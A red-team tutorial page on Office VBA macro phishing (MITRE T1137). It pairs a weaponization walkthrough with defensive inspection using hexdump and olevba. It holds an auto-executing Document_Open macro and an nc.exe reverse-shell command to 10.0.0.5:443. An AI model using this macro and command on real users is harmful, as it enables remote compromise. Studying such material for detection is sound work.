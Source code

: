 ```yaml
---
description: Code execution with VBA Macros
---
```


# T1137: Phishing - Office Macros

This technique will build a primitive word document that will auto execute the VBA Macros code once the Macros protection is disabled.

## Weaponization

1. Create new word document \(CTRL+N\)
2. Hit ALT+F11 to go into Macro editor
3. Double click into the "This document" and CTRL+C/V the below:

{% code-tabs %}
{% code-tabs-item title="macro" %}
```javascript
Private Sub Document_Open()
  MsgBox "game over", vbOKOnly, "game over"
  a = Shell("C:\tools\shell.cmd", vbHide)
End Sub
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="C:\\tools\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

This is how it should look roughly in:

![](../../.gitbook/assets/macros-code.png)

ALT+F11 to switch back to the document editing mode and add a flair of social engineering like so:

![](../../.gitbook/assets/macros-body%20%281%29.png)

Save the file as a macro enabled document, for example a Doc3.dotm:

![](../../.gitbook/assets/macros-filename.png)

{% file src="../../.gitbook/assets/doc3.dotm" caption="Dot3.dotm - Word Document with Embedded VBA Macros" %}

## Execution

Victim launching the Doc3.dotm:

![](../../.gitbook/assets/macro-victim.png)

...and enabling the content - which results in attacker receiving a reverse shell:

![](../../.gitbook/assets/macro-shell.png)

## Observations

The below graphic represents the process ancestry after the victim had clicked the "Enable Content" button in our malicious Doc3.dotm document:

![](../../.gitbook/assets/macro-ancestry.png)

## Inspection

If you received a suspicious Office document and do not have any malware analysis tools, hopefully at least you have access to a WinZip or 7Zip and Strings utility or any type of Hex Editor to hand. 

Since Office files are essentially ZIP archives \(PK magic bytes\):

```bash
root@remnux:/home/remnux# hexdump -C Doc3.dotm | head -n1
00000000  50 4b 03 04 14 00 06 00  08 00 00 00 21 00 cc 3c  |PK..........!..<|
```

...the file Dot3.dotm can be renamed to **Doc3.zip** and simply unzipped like a regular ZIP archive. Doing so deflates the archive and reveals the files that make up the malicious office document. One of the files is the `document.xml` which is where the main document body text goes and `vbaProject.bin` containing the evil macros themselves:

![](../../.gitbook/assets/macros-deflated.png)

Looking inside the `document.xml`, we can see the body copy we inputted at the very begging of this page in the [Weaponization](t1137-office-vba-macros.md#weaponization) section:

![](../../.gitbook/assets/macros-document-unzipped.png)

Additionally, if you have the strings or a hex dumping utility, you can pass the `vbaProject.bin` through it. This can sometimes give you as defender enough to determine if the document is suspicious/malicious. 

Running `hexdump -C vbaProject.bin` reveals some fragmented keywords that should immediately raise your suspicion - **Shell, Hide, Sub\_Open** and something that looks like a file path:

![](../../.gitbook/assets/macros-hex-shell.png)

If you have a malware analysis linux distro Remnux, you can easily inspect the VBA macros code contained in the document by issuing the command `olevba.py filename.dotm`. As seen below, the command nicely decodes the `vbaProject.bin`  and reveals the actual code as well as provides some interpretation of the commands found in the script:

![](../../.gitbook/assets/macros-olevba.png)

{% hint style="danger" %}
Note that the olevba can be fooled as per [http://www.irongeek.com/i.php?page=videos/derbycon8/track-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen](http://www.irongeek.com/i.php?page=videos/derbycon8/track-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen)
{% endhint %}

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1137" %}

